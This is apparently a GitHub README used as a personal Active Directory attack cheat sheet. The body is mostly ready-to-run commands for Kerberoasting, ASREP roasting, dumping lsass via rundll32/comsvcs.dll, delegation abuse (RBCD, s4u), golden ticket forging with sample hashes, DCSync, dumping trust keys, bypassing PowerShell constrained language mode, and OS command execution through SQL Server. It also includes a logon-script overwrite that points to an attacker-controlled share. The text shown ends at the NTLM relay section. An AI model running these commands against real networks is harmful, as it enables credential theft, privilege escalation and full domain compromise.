


This is my personal safe for arsenals. Feel free to refer and use at anytime. You can also refer to this [arsenals](arsenals) for any extra commands (`Ctrl+f` will definitely help)

**_Disclaimer: Do not use this command for illegal use. Any action you take upon the information on this repo is strictly at your own risk_**

* **[ACLs/ACEs permissions](#acls-possible-abuse)**
* **[LDAP Filters as alternative](#ldap-filters)**
* **[Situational Awareness](#situational-awaress)**
	* **[Domain Enumeration](#domain-enumeration)**
		* [Forest Trust](#forest-trust)
		* [ASREP Roasting](#asrep-roasting)
		* [Kerberoasting](#kerberoasting)
		* [Unconstrained / Constrained Object](#unconstrained--constrained-object)
	* **[Constrained Language Mode](#constrained-language-mode)**
		* [CLM Enumeration](#clm-enumeration)
		* [Bypassing CLM](#bypassing-clm)
		* [Dump lsass with rundll32](#dump-lsass-process-with-signed-binary)
* **[Delegations](#delegations)**
	* [Unconstrained Delegation](#unconstrained-delegation)
		* [Printer Bug](#printer-bug)
		* [Extract TGTs](#extract-tgt)
	* [Constrained Delegation](#constrained-delegation)
		* [s4u Delegation](#s4u-delegation)
	* [Resource-Based Constrained Delegation](#resource-based-constrained-delegation)
* **[ACLs/ACEs Abuse](#acls/aces-abuse)**
	* [ForceChangeUserPassword](#force-change-user-password)
	* [Change Password (with PSCredential](#change-password-with-credential)
	* [Targeted Kerberoast](#targeted-kerberoast)
	* [Add DCsync privilege to object](#add-dcsync-to-object)
	* [Add Users to Group](#add-users-to-group)
	* [Overwrite Logon Script](#overwrite-logon-script)
	* [Read LAPS](#read-laps)
	* [Shadow Credentials](#shadow-credentials)
* **[Weak GPO Permission](#weak-gpo-permission)**
	* [Enumerate weak GPO Permission](#enumerate-weak-gpo-permission)
	* [GPO Abuse with PowerView](#gpo-abuse-with-powerview)
* **[SQL Server Enumeration and Code Execution (PowerUpSQL)](#sql-server-enumeration-and-code-execution)**
	* [Get SQL Instances](#get-sql-instances)
	* [Get SQL Linked Server](#get-sql-linked-server)
	* [Execute SQL Query and OS Command](#execute-sql-query-and-os-command)
* **[Domain Trust Hopping](#domain-trust-hopping)**
	* [Child-Parent Domain Escalation](#child-parent-domain-escalation)
* **[Forest Trust Hopping](#forest-trust-hopping)**
	* [SID History](#sid-history)
	* [Shadow Principal](#shadow-principal)
	* [Foreign Principal](#foreign-principal)
	* [Trust Account](#trust-account)
* **[Lateral Movement / Post Exploitation](#lateral-movement--post-exploitation)**
	* [Overpass-The-Hash](#overpass-the-hash-opth)
	* [Pass-The-Certificate](#pass-the-certificate)
	* [Pass-The-CCache](#pass-the-ccache)
	* [Request TGT](#request-tgt)
	* [runas](#runas)
	* [Credential Harvesing](#credential-harvesting)
		* [DCSync](#dcsync)
* **[NTLM Relay](#relay)**
	* [Basic Relaying](#basic-relaying)
	* [Dump Domain Objects](#dump-domain-objects)
	* [Store SOCKS Sessions](#store-socks-sessions)
	* [Request User Certificate](#request-user-certificate)
	* [Shadow Credentials](#shadow-credentials)
	* [ESC8](#esc8)
	* [Webdav to LDAP(S)](#webdav-to-ldap(s))
	* [NetNTLMv1 to LDAP](#netntlmv1-to-ldap)
* **[Persistence](#persistence)**
	* [Golden Ticket](#golden-ticket)
	* [Diamond Ticket](#diamond-ticket)
	* [Golden Certificate](#golden-certificate)
	* Skeleton Keys
	* Shortcuts
	* [msDS-AllowedToDelegateTo](#msds-allowedtodelegateto)
	* Scheduled Tasks
	* AdminSDHolder
	* [Registry Keys](#registry-keys)
		* [Execute on startup](#execute-on-startup)
		* Recycle Bin
	* [krbtgt Constrained Delegation](#krbtgt-constrained-delegation)
* **[Remote Access](#remote-authentication-protocol)**
	* [PSRemoting](#ps-remoting)
	* [Winrs](#winrs)
	* [PsExec](#psexec)
	* [WMI](#wmi)
	* [DCOM](#dcom)
* **[Defense Evasion](#defense-evasion)**
	* [Generate VBScript dropper (APC process injection)](#generate-vbscript-dropper-apc-process-injection)
		* [Cobalt Strike Beacon](#cobalt-strike-beacon)
		* [Covenant Grunt](#convenant-grunt)
	* [C2 Redirector](#c2-redirector)
		* [SSH Remote Tunnel](#ssh-remote-tunnel)
		* [Apache mod_rewrite](#apache-mod_rewrite)
* **[Low Hanging Fruits](#low-hanging-fruits)**
	* [ZeroLogon](#zerologon)
	* [HiveNightmare](#hivenightmare)
* **[NTLMv1 Shenanigans](#ntlmv1-shenanigans)**
	* [NTLM Downgrade](#ntlm-downgrade)
	* [Relay SMB to LDAP(S)](#relay-smb-to-ldap(s))
* **[PrintNightmare](#printnightmare)**
* **[noPac](#nopac)**
* **[Active Directory Certificate Service](#ADCS)**
	* [PKI Abuse](#pki-abuse)
	* [ESC1](#esc1)
	* [ESC4](#esc4)
	* [ESC8](#esc8)
	* [Certifried](#certifried)
	* [ADCS References](#adcs-references)
* **[Relay Notes](#relay-notes)**
* **[File Transfer](#file-transfer)**
* **[DLL Sideloading](#dll-sideloading)**
* **[Reverse Shells](#reverse-shells)**
	* [php](#php-reverse-shell)
	* [perl](#perl-reverse-shell)
	* [nodejs](#nodejs-reverse-shell)
	* [c](#c-reverse-shell)
	* [c#](#c-sharp-reverse-shell)
	* [jenkins](#jenkins-reverse-shell)
	* [lua](#lua-reverse-shell)
	* [jsp](#jsp-reverse-shell)


# ACLs possible abuse
ACL/ACE | Object | Permission | Abuse | ScreenShot
--- | --- | --- | --- | ---
**GenericAll** | User  | Full rights | [Force change user's password](#force-change-user-password), [Targeted Kerberoast](#targeted-kerberoast), Shadow Credentials | 
**GenericAll** | Group  | Full rights | [Self add to group](#add-users-to-group) | 
**GenericAll** | Computer  | Full rights | [RBCD](#resource-based-contrained-delegation) | 
**GenericWrite</br>WriteProperty** | User | Write/update object's attributes | [Targeted Kerberoast](#targeted-kerberoast), [Overwrite Logon Script](#overwrite-logon-script) | 
**GenericWrite** | Group | ability to self add to group | [Self add to group](#add-users-to-group) | 
**GenericWrite</br>WriteProperty** | Computer | Write/update object's attributes | [RBCD](#resource-based-constrained-delegation) |
**GenericWrite</br>AllExtendedWrite</br>GenericAll</br>WriteOwner</br>WriteProperty** | GPO | Write object's properties | [Add self to local admin](#gpo-abuse-with-powerview) |
**WriteDACL** | Domain | modify object's ACE (full control) | [Give owned users DCsync Privilege](#add-dcsync-to-object) |
**WriteOwner** | User  | change owner/password | [Change user's password with credential](#change-password-with-credential) |
**Self-Membership/Self** | Group | ability to add ourself to the group | [Self add to group](#add-users-to-group) |
**ExtendedRights** | User  | change user's password | [Force change user's password](#force-change-user-password) | 
**ExtendedRights** | Group  | Read LAPS Password | [Read LAPS Password](#read-laps-local-administrator-password) |
**User-Force-Change-Password** | User | change user's password | [Force change user's password](#force-change-user-password) | 

# LDAP Filters
| PowerView                            | Description                            | LDAP Filter                                                                                  |
| ------------------------------------ | -------------------------------------- | -------------------------------------------------------------------------------------------- |
| `Get-DomainController`               | Get current domain controller          | `(userAccountControl:1.2.840.113556.1.4.803:=8192)`                                          |
| `Get-Forest`                         | Get current forest                     | `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`                      |
| `Get-DomainUser`                     | Get all domain users                   | `(&(samAccountType=805306368))`                                                              |
| `Get-DomainUser -TrustedToAuth`      | Get trusted users for delegation       | `(&(samAccountType=805306368)(msds-allowedtodelegateto=*))`                                  |
| `Get-DomainUser -SPN`                | Get non-null users' SPN                | `(&(samAccountType=805306368)(servicePrincipalName=*))`                                      |
| `Get-DomainUser -PreAuthNotRequired` | Get users that disable preauth         | `(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))`          |
| `Get-DomainGroup`                    | Get all domain groups                  | `(&(objectCategory=group))`                                                                  |
| `Get-DomainGroup *admin*`            | Get specific domain group identity     | <code>(&(samAccountType>(&(samAccountType=805306368)(&#124;(samAccountName=*admin*)))</code> |
| `Get-DomainComputer`                 | Get all domain computers               | `(&(samAccountType=805306369))`                                                              |
| `Get-DomainComputer -Unconstrained`  | Get all unconstrained domain computers | `(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))`           |
| `Get-DomainGPO`                      | Get all domain GPO                     | `(&(objectCategory=groupPolicyContainer))`                                                   |

Example use:
```
# Current domain context
([adsisearcher]"<ldap-filter>").FindAll()

# Other domain context
$adsiSearcherObj = [adsisearcher]""
$adsiSearcherObj.SearchRoot = [ADSI]"LDAP://DC01/DC=legitcorp,DC=local"
$adsiSearcherObj.Filter = "<ldap-filter>"
$adsiSearcherObj.FindAll()
```
_Note: These LDAP filters can be used with `[adsisearcher]` builtin function in powershell. Any extra commands can be found [here](https://mlcsec.com/active-directory-domain-enumeration-part-2). Amazing cheatsheet by [@mlcsec](https://twitter.com/mlcsec)_

# Situational Awareness
## Domain Enumeration
### Forest Trust
```
# Map all domain trusts
Get-DomainTrustMapping -Verbose

# Get Forest Trust from current domain
Get-DomainTrust
```
### ASREP Roasting
```
# PowerView
Get-DomainUser -PreauthNotRequired

# Impacket
GetNPUsers.py kiwi.local/bethany.linnell -no-pass -dc-ip 192.168.86.189
GetNPUsers.py kiwi.local/ -usersfile /tmp/users.lst -no-pass -dc-ip 192.168.86.189
```

### Kerberoasting
```
# Powerview
Get-DomainUser -SPN

# Rubeus
Rubeus.exe kerberoast /nowrap
```
**Update**: A research has been done by [@exploitph](https://twitter.com/exploitph) concludes that a user that has `Not-RequirePreAuth` property enabled can perform [Kerberoasting](#kerberoasting) without needing the password of the account. Detailed explanation can be read [here](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/). 
> When a ticket is requested without pre-authentication, the result still includes an encrypted part. This encrypted part is encrypted with the credential key used for authentication and contains the session key for the ticket included within the reply. This is the encrypted data used in the [ASREPRoast attack](https://blog.harmj0y.net/activedirectory/roasting-as-reps/) by [Will Schroeder](https://twitter.com/harmj0y). The resulting TGT is usable only with access to the requesting accounts key, since the TGT session key is required. However, for Kerberoasting, access to the session key is not required. Only the resulting ST—or more accurately, the encrypted part of the ST, which is not secured with the requesting accounts key—is required. Therefore, if any account is configured to not require pre-authentication, it is possible to Kerberoast without **any** credentials.
```
# Rubeus
.\Rubeus.exe kerberoast /domain:kiwi.local /dc:192.168.86.189 /nopreauth:bethany.linnel /spns:users.txt

# Impacket
GetUserSPNs.py kiwi.local/ -no-preauth bethany.linnell -usersfile /tmp/users.lst -dc-ip 192.168.86.189
```
**References**
* https://www.semperis.com/blog/new-attack-paths-as-requested-sts/
* https://twitter.com/_nwodtuhs/status/1575082377189429250?s=20&t=iS5ugj6lp5GyL6QF4jWn0Q

### Unconstrained / Constrained Object
```
# unconstrained computer
Get-DomainComputer -Unconstrained -Properties name

# Constrained user/computer
Get-DomainComputer -TrustedToAuth -Properties name,msds-allowedtodelegateto
Get-DomainUser -TrustedToAuth -Properties name,msds-allowedtodelegateto
```
You can abuse these delegation permission by referring [here](#unconstrained-delegation)

## Constrained Language Mode (CLM) / WDAC / Device Guard
### CLM Enumeration
```
$ExecutionContext.SessionState.LanguageMode
```
### Bypassing CLM
1. **Spawn a new FLM powershell console**
There are multiple simple ways to bypass this lockdown mechanism. One of the cool techniques is by spawning a new FLM powershell session that interacts with the `System.Management.Automation.dll` runspace directly instead of executing under powershell.exe process. This can be done with this cool repo [here](https://github.com/calebstewart/bypass-clm)

2. **Name your script to contain "System32" string**
As referred to this [article](https://www.blackhillsinfosec.com/constrained-language-mode-bypass-when-pslockdownpolicy-is-used/), Microsoft has mentioned that when applying CLM using `__PSLockdownPolicy` variable, there are ways to bypass since the system only checks if the path contains the "System32" string.
> In addition, there are also file naming conventions that enable FullLanguage mode on a script, effectively bypassing Constrained Language.

### View AppLocker Rules
```
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```
### Dump lsass process with signed binary
This method will bypass CLM to dump lsass since we are using MS signed binary (whitelisted)
```
# Run this in victim/remote computer
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Windows\Tasks\lsass.dmp full

# Use pypykatz
pypykatz lsa minidump lsass.dmp

# Use mimikatz's minidump
mimikatz# sekurlsa::minidump <Path_to_file>\lsass.dmp
mimikatz# sekurlsa::logonpasswords
```

# Delegations
## Unconstrained Delegation
### Printer Bug
Using spooler service to authenticate between domain computers(that runs spooler svc). Attackers can monitor incoming tickets with `Rubeus`.

1. Verify that remote computer has spooler service running
```
ls \\dc01.contoso.local\pipe\spoolss
```

2. Download spoolsample [here](https://github.com/leechristensen/SpoolSample) and run the following command to authenticate and capture ticket.
```
# run this on domain joined computers
spoolsample.exe dc01.contoso.local ms01.contoso.local
# or can use this command for linux workstation
python3 printerbug.py contoso.local/donald:'Changeme123'@10.200.60.202 10.50.57.128

# monitor ticket
Rubeus.exe monitor /interval:5
```

### Extract TGT
Since unconstrained computers will save users tgt (logged in users). We will extract this keys and able to impersonate them.
```
mimikatz# sekurlsa::tickets /export
Rubeus.exe ptt /ticket:ticket.kirbi
```

## Constrained Delegation
### s4u delegation
This attack is possible if `msds-AllowedToDelegateTo` is set.
* with rc4 hash in hand
```
# Request TGT + TGS
Rubeus.exe s4u /user:attacker /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,host,http /domain:contoso.local /dc:dc01.contoso.local /ptt

# impacket
getST.py -spn cifs/TargetComputer.range.net 'range.net/FakeComputer$:newpassword123' -impersonate administrator -dc-ip 192.168.86.182
```
* with owned user session (not knowing his rc4)
```
# Request for ticket
Rubeus.exe tgtdeleg /nowrap

# Request TGS with base64 blob ticket
Rubeus.exe s4u /user:attacker /ticket:<base64-blob> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,http,host /domain:contoso.local /dc:dc01.contoso.local /ptt
```

## Resource-Based Constrained Delegation
This attack is possible if owned user/computer object has _GenericWrite_ or write privilege to user/computer object attributes. Since we have write privilege, we can write to _msds-allowedtoactonbehalfofotheridentity_ property. There are few requirements needed in order to perform this attack.
| Name                                              | Value       |
| ------------------------------------------------- | ----------- |
| Domain object with SPN set (computer/service acc) | mycomputer$ |
| Principal's plain-text or hashes (rc4/aes-256)    | Range2022!  | 
1. Import ADModule
2. Set _msds-allowedtoactonbehalfofotheridentity_ to owned computer/user objects.
```
# AD-Module
Set-ADComputer -Identity dc01 -PrincipalsAllowedToDelegateToAccount (Get-ADComputer mycomputer)

# PowerView
Add-DomainObjectAcl -TargetIdentity dc01 -PrincipalIdentity mycomputer -Rights rbcd

# Impacket
rbcd.py kiwi.local/kiwiadm:Password1234 -action write -delegate-to 'kiwi-dc$' -delegate-from cami.nichole -dc-ip 192.168.86.189
```
3. Get mycomputer$ ntlm hash or aes keys
```
mimikatz# sekurlsa::logonpasswords
```
4. Apply s4u delegation (TGT+TGS)
```
# rubeus
Rubeus.exe s4u /user:mycomputer$ /rc4:<rc4/ntlm hash> /impersonateuser:administrator /msdsspn:http/dc01 /altservice:cifs /ptt

# impacket 
getST.py range.net/mssqlsvc:'Range2022!' -dc-ip 192.168.86.182 -spn cifs/dc01.range.net -impersonate Administrator
```

#### References
1. [Harmj0y's gist on abusing RBCD with PowerShell/PowerView/PowerMad](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
2. [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)

# ACLs/ACEs Abuse
### Force Change User Password
_Note: This doesn't require you to know the owned user's credential_
```
# PowerView
Set-DomainUserPassword -Identity studentadmin -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```

### Change password with credential
_Note: Need to know owned user's password_
```
# Create PSCredential Object
$username='contoso\administrator'
$password=ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)

# Change password with PSCredential
Set-DomainUserPassword -Identity studentadmin -Domain contoso.local -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'password123!') -Credential $cred
```

### Targeted Kerberoast
This technique will update `ServicePrincipalName` of a user object. Make sure to have a write permission on the user's attributes.
```
# Set SPN
## Windows
Set-DomainObject -Identity sqlsvc -Set @{serviceprincipalname='my/sqlspn'}

# Clear SPN (OPSEC)
Set-DomainObject -Identity sqlsvc -Clear serviceprincipalname
```

There is also a repo [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to automatically discover ACLs from the current user context against other domain objects looking for _Write_ permission on `servicePrincipalName` attribute. 
```
python3 targetedKerberoast.py -u jsparrow -p Password123 -d range.net --dc-ip 10.10.10.10
```

### Add DCSync Privilege to object
```
Add-DomainObjectAcl -TargetIdentity "DC=contoso,DC=local" -PrincipalIdentity studentuser -Rights DCSync
```

### Add Users to Group
This command will add specific principal to a group that exists in the domain. _Note that there are several tools to perform this. Below are some of the methods that can be used. Checkout this cool tool [bloodyAD](https://github.com/CravateRouge/bloodyAD)_
```
# PowerView
Add-DomainGroupMember -Identity cadmins -Members lowpriv

# net.exe
net.exe group 'cadmins' lowpriv /add /domain
```

### Overwrite Logon Script
Logon Script will run everytime user logged in._(note: use ad module)_
```
Set-ADObject -SamAccountName  -PropertyName scriptpath -PropertyValue "\\attackerip\script.ps1"
```

### Read LAPS
This will only possible if you have _AllExtendedRights_ permission on a computer object.
```
Get-DomainComputer -Properties ms-mcs-admpwd
```

### Shadow Credentials
There is an attribute called `msDS_KeyCredentialLink` where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has a matching private key, and a TGT will be sent if there is a match. The attribute could be controlled if the controlled account has a privilege to write on the account attributes. 
```
# Whisker
Whisker.exe add /target:lowpriv /domain:range.net /dc:192.168.86.182 /path:cert.pfx /password:"pfx-password"

# pyWhisker (list certificates)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action list

# pyWhisker (modify msDS-KeyCredentialLink)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action add
```

Once you have obtained the certificate, it can further use the Pass-The-Certificate attack to authenticate. 

# Weak GPO Permission
### Enumerate weak GPO Permission
```
# Domain wide
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs | ? {$_.activedirectoryrights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner"}}

# specific user (based on user's sid)
Get-DomainGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name | ? {$_.ActiveDirectoryRights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner" -and $_.securityidentifier -match "<userssid>"}}
```

### GPO Abuse with PowerView
```
# Execute specific tasks
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments 'net.exe localgroup administrators dummyuser /add' -Force

# update GPO (must run)
gpoupdate /force
```

# SQL Server Enumeration and Code Execution
I did most of my SQL Server Enumeration by using this [PowerUpSQL.ps1](https://github.com/NetSPI/PowerUpSQL) script. Refer to more commands in this [PowerUpSQL Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
### Get SQL Instances
This method will allow you to enumerate local or domain sql servers(if any).
```
# Get Local Instance
Get-SQLInstanceLocal -Verbose

# Get Domain Instance
Get-SQLInstanceDomain -Verbose
```
### Get SQL Linked Server
This command will allow you to enumerate linked sql server to selected instance. Output of the command also shows privilege that you currently have on specific sql server
```
# Enumerate Linked Server (show just instace and priv)
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local

# Enumerate Linked Server and Execute SQL Query
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local -Query 'exec master..xp_cmdshell ''whoami'''
```
### Execute Remote SQLQuery
_Prerequisite:_
* Make sure you are **sa** user (high privileged user)
* Make sure to enable `xp_cmdshell` before executing os command
```
# Enable xp_cmdshell
Get-SQLQuery -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "DB-SQLSRV"'

# Execute OS command
Get-SQLQuery -Query 'EXECUTE(''xp_cmdshell ''''whoami'''''') AT "DB-SQLSRV"'
Invoke-SQLOSCmd -Instance DB-SQLSRV -Command "whoami"
```
# Domain Trust Hopping
### Child-Parent Domain Escalation
This attack made possible since there is no security boundary between domains. Hence we could forge a golden ticket that contains _extra sid_ of a parent domain's _Enterprise Admins_. Below are the requirements to perform this attack:

| Name | Value |
| --- | ----------- |
| Child domain krbtgt hash | `833ef1dcc490f88a8f4a8a00859736de ` |
| Child domain SID | `S-1-5-21-3263068140-2042698922-2891547269` |
| Child domain FQDN | child.domain.local |
| Parent domain EA SID | `S-1-5-21-378720957-2217973887-3501892633-519` |

1. Forge a [Golden Ticket](#golden-ticket) that contains _extra sid_ of the parent domain's Enterprise Admins.
```
# windows
mimikatz# kerberos::golden /user:Administrator /domain:child.domain.local [/ntlm|/aes256]:833ef1dcc490f88a8f4a8a00859736de /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-519 /ptt

# linux
ticketer.py -nthash 833ef1dcc490f88a8f4a8a00859736de -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain child.domain.local -extra-sid S-1-5-21-378720957-2217973887-3501892633-519 Administrator
```

2. Use the ticket to perform Pass The Ticket (PTT) and win!. Ensure to use FQDN if you encounter any errors. _Note that if you ran mimikatz command with `/ptt` flag already does the following step. Hence you might want to skip this step_
```
export KRB5CCNAME=Administrator.ccache
secretsdump.py child.domain.local/Administrator@dc01.domain.local -just-dc -k -no-pass
```

Above steps could be automated with [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py) if you obtain a privileged account (i.e. Domain Admin). _-debug flag is <3_
```
raiseChild.py -target-exec dc-1.domain.local child.domain.local/domainadm -hashes :2e8a408a8aec852ef2e458b938b8c071 -debug
```

# Forest Trust Hopping
### SID History
This attack path is only applicable when **SID Filtering is disabled** and **SID History is enabled**. You can read the in-depth [blogpost](https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d) on this by harmj0y.
1. Check for `trustAttributes`  attribute. Make sure SID History is enabled
```
Get-DomainTrust
[[..snip..]]
TrustAttributes : TREAT_AS_EXTERNAL
[[..snip..]]
```
If _TREAT\_AS\_EXTERNAL_ flag is set in **trustAtrributes** property, that means forst-trust is now more relaxed as stated in this [documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c?redirectedfrom=MSDN)
> _If this bit is set, then a cross-forest trust to a domain is to be treated as an external trust for the purposes of SID Filtering._ **_Cross-forest trusts are more stringently filtered than external trusts_**_. This attribute relaxes those cross-forest trusts to be equivalent to external trusts._

2. Forge Inter-Realm TGT with extra sids. We injected sid of trusted domain users with RID > 1000. This is because most _WELL-KNOWN-SID_ is flag as _ForestSpecific_ based on the [documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280) 
>The ForestSpecific rule is for those SIDs that are never allowed in a PAC that originates from out of the forest or from a domain that has been marked as QuarantinedWithinForest, unless it belongs to that domain.

```
mimikatz# kerberos::golden /user:administrator /domain:contoso.local /sid:<domain-sid> /rc4:<trust-key> /service:krbtgt /target:fortress.local /sids:<victim-user-sid> /ticket:<path>\ticket.kirbi
```
3. Asktgs with the generated kirbi ticket
```
Rubeus.exe asktgs /ticket:<path>\ticket.kirbi /service:HTTP/dc02.contose.local /dc:dc02.contoso.local /ptt
```

### Shadow Principal/PAM Trust
The users in current forest can be "mapped" to privileged group like Domain Admins and Enterprise Admins. Use below command to enumerate _Shadow Principal_
```
Get-ADObject -Filter * -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) | select Name,member,msDS-ShadowPrincipalSid | fl
```
* `name` = Name of the shadow security principal
* `member` = member of group/user in the bastion domain
* `msds-ShadowPrincipalSid` = The SID for production domain group/user

### Foreign Principal
Foreign principal means other user(s) from trusted domain that have access to current domain resources
```
# Get foreign user principals
Find-ForeignUser

# Get foreign group principals
Find-ForeignGroup
```

### Trust Account
_Note that this is not an exploit that could be escalated directly to higher privileged user. This is intend to give you a authenticated user access on another forest_
Trust Account is created upon trust initiation (domain/trust) and it appears to be a member of Domain Users. Trust accounts will hold the same password/key on both domain/forest which we can use to move laterally from forest-to-forest.
1. Get the trust account hash. This can either be obtained through [DCSync](#dcsync) or the following command to dump trust keys
```
mimikatz# lsadump::trust /patch 
[[..snip..]]
[ Out ] KIWI.LOCAL -> RANGE.NET
    * 6/29/2022 1:05:07 PM - CLEAR   - 5e 88 f5 8e bf 01 83 8f 61 39 50 37 77 d8 ce 86 b0 90 f8 e4 b5 2e ef e2 03 dd bf 4c
        * aes256_hmac       a3edf4ac6cb5ed1583434348a67454d66e9fcd25d97c3e930c24790dbfa1d15f
        * aes128_hmac       6e362139cacfdd8956d986fc8e33f0e9
        * rc4_hmac_nt       4cc0dd338664b4208fa6a1a4a7bee224
[[..snip..]]
```
2. Request TGT for the trust account by using the key dumped (aes/rc4). _Note: this wouldn't work over NTLM authentication, only kerberos_
```
# rubeus
Rubeus.exe asktgt /user:RANGE$ /rc4:4cc0dd338664b4208fa6a1a4a7bee224 /domain:kiwi.local /dc:kiwi-dc.kiwi.local /nowrap

# impacket
getTGT.py kiwi.local/range\$ -hashes :4cc0dd338664b4208fa6a1a4a7bee224 -dc-ip 192.168.86.189
```
3. Now you should be able to use the retrieved TGT to interact with the trusted forest.
# Lateral Movement / Post Exploitation
### Overpass-The-Hash (OPTH)
_Note: This requires local administrator privilege_
```
# NTLM hash
mimikatz# sekurlsa::pth /user:administrator /ntlm:<ntlm hash> /domain:CONTOSO /run:powershell.exe

# AES256 key
mimikatz# sekurlsa::pth /user:administrator /aes256:<aes256 key> /domain:CONTOSO /run:powershell.exe
```

### Pass-The-Certificate
A certificate must be obtain in order to perform this technique either through [Shadow Credentials](#shadow-credentials) or [ESC8](#esc8)
```
# PKINITTools
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```

### Pass-The-CCache
1. Request a TGT from KDC. _Note that this can be done with multiple ways, this is just one of the methods_
```
getTGT.py range.net/rangeadm:Password123 -dc-ip 192.168.86.182
```
2. export ccache file path to `KRB5CCNAME` environment variable.
```
export KRB5CCNAME=rangeadm.ccache
```
3. Authenticate with the target object. 
```
smbclient.py range.net/rangeadm@dc01.range.net -k -no-pass
```

### Request TGT
_Note: This will be log by the KDC_
```
# With plain-text
Rubeus.exe asktgt /user:administrator /password:P@$$w0rd! /domain:contoso /ptt

# With RC4 hash
Rubeus.exe asktgt /user:administraot /rc4:<rc4-hash> /domain:contoso /ptt

# Linux
getTGT.py legitcorp.local/lowpriv:'P@$$w0rd' -dc-ip 192.168.86.170
export KRB5CCNAME=lowpriv.ccache
```

### runas
This method will spawn a new process as the user. This wont validate your password, so make sure you enter it right. Slowly but surely :)
```
runas /user:contoso\administrator /netonly powershell
```

### Credential Harvesting
### DCSync
```
# Dump all available domain users
mimikatz# lsadump::dcsync /domain:fqdn /all /csv

# Dump for specific user
mimikatz# lsadump::dcsync /domain:fqdn /user:krbtgt

# Dump (if no privileged user session)
lsadump::dcsync /domain:contoso.local /dc:dc01 /user:administrator /authuser:dc01$ /authdomain:contoso.local /authpassword:"" /authntlm
```

# NTLM Relay
_Note: This attack will only work if SMB signing if disabled. This can be verify with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) or any similar tools_

### Basic Relaying
